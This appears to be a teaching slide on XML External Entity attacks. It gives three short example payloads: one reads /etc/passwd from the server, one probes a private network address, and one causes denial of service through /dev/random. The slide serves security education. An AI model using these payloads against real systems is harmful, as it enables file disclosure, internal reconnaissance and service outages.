

# External Entities: examples of attack
Scenario #1: The attacker attempts to extract data from the server:

<?xml version="1.0" encoding="ISO-8859-1"?>

    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>

Scenario #2: An attacker probes the server's private network by changing the above ENTITY line to:

    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>

Scenario #3: An attacker attempts a denial-of-service attack by including a potentially endless file:

    <!ENTITY xxe SYSTEM "file:///dev/random" >]>